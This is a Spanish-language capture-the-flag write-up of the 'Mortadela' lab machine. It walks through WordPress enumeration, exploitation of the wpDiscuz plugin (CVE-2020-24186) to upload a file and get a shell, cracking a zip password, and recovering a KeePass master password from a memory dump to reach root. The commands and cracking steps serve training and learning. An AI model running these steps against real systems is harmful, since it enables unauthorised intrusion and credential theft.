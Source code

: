 ```yaml
---
title: "Mortadela - WriteUp"
date: Fri Aug 23 2024 11:28:12 GMT+0200 (Central European Summer Time)
categories: [WriteUps, TheHackerLabs, Linux]
tags: [wordpress, CVE-2020-24186, CVE-2023-32784, dotnet, keepass-password-dumper]
image: /assets/img/cabeceras/2024-08-23-mortadela---writeup.jpg
---
```


## Enumeración

NMAP

```bash
# Nmap 7.94SVN scan initiated Fri Apr  5 09:59:23 2024 as: nmap -sCV -p 22,80,3306 --stylesheet=https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/stable/nmap-bootstrap.xsl -oN targeted -oX targetedXML 192.168.1.44
Nmap scan report for 192.168.1.44
Host is up (0.00053s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 aa:8d:e4:75:bc:f3:f8:5e:42:d0:ee:ca:e2:c4:0b:97 (ECDSA)
|_  256 ae:fd:91:ef:42:71:cb:11:b9:66:97:bf:ec:5b:d6:4b (ED25519)
80/tcp   open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
3306/tcp open  mysql   MySQL 5.5.5-10.11.6-MariaDB-0+deb12u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.6-MariaDB-0+deb12u1
|   Thread ID: 33
|   Capabilities flags: 63486
|   Some Capabilities: SupportsLoadDataLocal, LongColumnFlag, Support41Auth, IgnoreSpaceBeforeParenthesis, SupportsTransactions, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, SupportsCompression, FoundRows, IgnoreSigpipes, InteractiveClient, ConnectWithDatabase, ODBCClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: yi~aH%{bWnCA^76IK}Sf
|_  Auth Plugin Name: mysql_native_password
MAC Address: 00:0C:29:0E:4B:CF (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

FUZZ 

Descubrimos que corre un Wordpress:
```bash
$ dirsearch -u http://192.168.0.108 -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 60 --full-url
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405113824.png)

Hacemos un escaneo de plugins con NMAP y descubrimos dos, pero uno nos llama la atneción:

```bash
$ nmap -p80 192.168.0.108 --script http-wordpress-enum --script-args http-wordpress-enum.root='/wordpress/',search-limit=1000
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114001.png)


## Explotación

Buscamos vulnerabilidades y encontramos dos que se adaptan perfectamente a la versión:

```bash
$ se wpdiscuz
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114143.png)

Probamos el exploit encontrado por `searchsploit` pero no nos convence. Vamos a buscar por la web.

Encontramos este [CVE-2020-24186](https://github.com/meicookies/CVE-2020-24186) y nos funciona perfectamente. Creamos el archivo con la URL y ejecutamos el plugin.

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114418.png)

```bash
$ ./CVE-2020-24186 site.txt
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114501.png)

Vemos que es vulnerable y nos ha subido un archivo PHP con el que poder subir archivos.

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114541.png)

Vamos a probar de subir un shell remoto. El por defecto en estos casos.

Nos ponemos a la espera, subimos el archivo PHP con la web que hemos creado y pa dentro!

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114917.png)

Sanitizamos consola y empezamos a enumerar:

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405115151.png)

Encontramos un archivo sospechoso en /opt...

Nos lo bajamos a nuestro equipo y vemos que tiene contraseña. Le pasamos john...

```bash
$ zip2john muyconfidencial.zip > confidencial.hash
...
$ john --wordlist=/usr/share/wordlists/rockyou.txt confidencial.hash
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405120859.png)

Contraseña de descompresión: _pinkgirl_

Descomprimimos y mostramos el contenido:

Contiene dos archivos, un dumpeo de keepass y otro que es la BBDD de Keepass:

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405121117.png)

Buscamos info y encontramos el repositorio [KeePass Password Dumper](https://github.com/vdohney/keepass-password-dumper)

Debemos emular un proyecto hecho en C# y pasarle el DUMP del Keepass. Con este programa llamado _dotnet_ creamos una lista de posibles contraseñas para romper la seguridad de la base de datos del Keepass.

Instalamos [DOTNET LINUX](https://learn.microsoft.com/en-us/dotnet/core/install/linux-scripted-manual#manual-install) para Linux.

Nos clonamos el repositorio arriba mencionado y ejecutamos lo siguiente:

```bash
$ dotnet run ../KeePass.DMP passwordlist 
```

---

## Notas

Si recibimos el error del tipo:

_"/usr/share/dotnet/sdk/6.0.400/Sdks/Microsoft.NET.Sdk/targets/Microsoft.NET.TargetFrameworkInference.targets(144,5): error NETSDK1045: The current .NET SDK does not support targeting .NET 7.0.  Either target .NET 6.0 or lower, or use a version of the .NET SDK that supports .NET 7.0."_

Simplemente editamos el archivo _.csproj_ y en la línea con la etiqueta < TargetFramework > indicamos la versión que tengamos, en mi caso tuve que poner la `net6.0`

---

Recibiremos la siguiente salida:

```bash
Found: ●9
Found: ●;
Found: ●H
Found: ●[
Found: ● 
Found: ●f

Password candidates (character positions):
Unknown characters are displayed as "●"
1.:	●
2.:	a, Ï, §, ñ, D, , \, #, y, k, 9, ;, H, [,  , f, 
3.:	r, 
4.:	i, 
5.:	t, 
6.:	r, 
7.:	i, 
8.:	n, 
9.:	i, 
10.:	1, 
11.:	2, 
12.:	3, 
13.:	4, 
14.:	5, 
Combined: ●{a, Ï, §, ñ, D, , \, #, y, k, 9, ;, H, [,  , f}ritrini12345
16 possible passwords saved in passwordlist. Unknown characters indicated as ●
```

Casi casi tenemos el password. Ahora con con _john_ y _hashcat_ terminaremos la faena:


## Escalada

Obtenemos el hash de la BBDD de Keepass (archivo Database.kdbx):

```bash
$ keepass2john Database.kdbx > database.hash
```

Y por último pasamos _hashcat_ :

```bash
$ hashcat -m 13400 --username database.hash passwordlist
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405124929.png)

Aunque nos haya dado "Exhausted" y nos falte el primer carácter del password podemos intuir cuáles son los candidatos a password final:

```http
Maritrini12345
maritrini12345
```

Abrimos el archivo .kdbx con Keepass o en mi caso ya que trabajo en Linux con _KeePassXC_ y en contraseña probamos la primera con la M mayúscula y bingo! Entramos en la BBDD!

Y nos muestra con gran afecto el password de root!

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405125330.png)

Credenciales:

```http
root:Juanikonokukunero
```

Las probamos en nuestra consola y...

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405125511.png)

Enhorabuena! somos root y podemos registrar las flags!

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405130451.png)



![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405130041.png)

